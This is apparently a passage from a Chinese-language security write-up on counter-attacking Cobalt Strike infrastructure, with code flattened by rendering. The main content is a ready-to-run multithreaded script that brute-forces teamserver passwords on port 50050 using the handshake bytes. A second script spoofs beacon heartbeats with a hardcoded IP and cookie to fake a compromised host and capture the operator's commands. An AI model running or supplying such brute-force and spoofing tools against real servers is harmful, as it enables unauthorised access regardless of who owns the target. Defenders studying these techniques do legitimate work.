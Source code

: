 ```
`# !/usr/bin/env python3``import time,socket,ssl,argparse,concurrent.futures,sys``MIN_PYTHON = (3, 3)``if sys.version_info < MIN_PYTHON:` `sys.exit("Python %s.%s or later is required.\n" % MIN_PYTHON)``parser = argparse.ArgumentParser()``parser.add_argument("host",` `help="Teamserver address")``parser.add_argument("wordlist", nargs="?",` `help="Newline-delimited word list file")``args = parser.parse_args()``class NotConnectedException(Exception):` `def __init__(self, message=None, node=None):` `self.message = message` `self.node = node``class DisconnectedException(Exception):` `def __init__(self, message=None, node=None):` `self.message = message` `self.node = node``class Connector:` `def __init__(self):` `self.sock = None` `self.ssl_sock = None` `self.ctx = ssl.SSLContext()` `self.ctx.verify_mode = ssl.CERT_NONE` `pass` `def is_connected(self):` `return self.sock and self.ssl_sock` `def open(self, hostname, port):` `self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)` `self.sock.settimeout(10)` `self.ssl_sock = self.ctx.wrap_socket(self.sock)` `if hostname == socket.gethostname():` `ipaddress = socket.gethostbyname_ex(hostname)[2][0]` `self.ssl_sock.connect((ipaddress, port))` `else:` `self.ssl_sock.connect((hostname, port))` `def close(self):` `if self.sock:` `self.sock.close()` `self.sock = None` `self.ssl_sock = None` `def send(self, buffer):` `if not self.ssl_sock: raise NotConnectedException("Not connected (SSL Socket is null)")` `self.ssl_sock.sendall(buffer)` `def receive(self):` `if not self.ssl_sock: raise NotConnectedException("Not connected (SSL Socket is null)")` `received_size = 0` `data_buffer = b""` `while received_size < 4:` `data_in = self.ssl_sock.recv()` `data_buffer = data_buffer + data_in` `received_size += len(data_in)` `return data_buffer``def passwordcheck(password):` `if len(password) > 0:` `result = None` `conn = Connector()` `conn.open(args.host, 50050)` `payload = bytearray(b"\x00\x00\xbe\xef") + len(password).to_bytes(1, "big", signed=True) + bytes(bytes(password, "ascii").ljust(256, b"A"))` `conn.send(payload)` `if conn.is_connected(): result = conn.receive()` `if conn.is_connected(): conn.close()` `if result == bytearray(b"\x00\x00\xca\xfe"): return password` `else: return False` `else: print("Do not have a blank password!!!")``passwords = []``if args.wordlist: passwords = open(args.wordlist).read().split("\n")``else: ``    for line in sys.stdin: passwords.append(line.rstrip())``if len(passwords) > 0:` `attempts = 0` `failures = 0` `with concurrent.futures.ThreadPoolExecutor(max_workers=30) as executor:` `future_to_check = {executor.submit(passwordcheck, password): password for password in passwords}` `for future in concurrent.futures.as_completed(future_to_check):` `password = future_to_check[future]` `try:` `data = future.result()` `attempts = attempts + 1` `if data:` `print ("Successful Attack!!!")` `print("Target Password: {}".format(password))` `except Exception as exc:` `failures = failures + 1` `print('%r generated an exception: %s' % (password, exc))``else:` `print("Password(s) required")`
```

**3：假上线**

我们只需要发送心跳包，即可模拟上线，并且攻击者无法执行命令，只能干着急。

也就是模拟cs 上线，直接附代码。

使用时更改换IP或域名、port、cookie

```
`# coding: utf-8``import re``import time``import requests``def heartbeat():` `url = "http://192.168.186.133:333/activity"` `headers = {` `'Cookie': 'IgyzGuIX0Jra5Ht45ZLYKyXWBnxfkNI3m6BOvExEPdWCuAv8fnY6HXKTygBOVdE34sDYusoDIjzHr/QR32mKsoVPb5NFMCHAtC7FLQUdSsZdufXjsd2dSqkGDcaZkcQYD1BssyjGZHTy42lT8oDpga3y1z5FMGRjobeksgaMX7M=',` `'Host': '192.168.186.133:333',` `'Accept': '*/*',` `'Connection': 'Keep-Alive',` `'Cache-Control': 'no-cache',` `'User-Agent': 'Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727)'` `}` `resp = requests.get(url=url,headers=headers)` `text = resp.content.hex()` `return text``x = True``while x:` `text = heartbeat()` `lengs = len(text)` `# print(lengs, "    ", text)` `if '2f4320' in text and '000041' in text:` `print(time.strftime("%Y-%m-%d %H:%M:%S", time.localtime()))` `commeds = re.findall(r'2f4320(.*?)000041', text)` `for comm in commeds:` `commed = bytes.fromhex(comm).decode('utf-8')` `print(commed)` `time.sleep(5)`
```
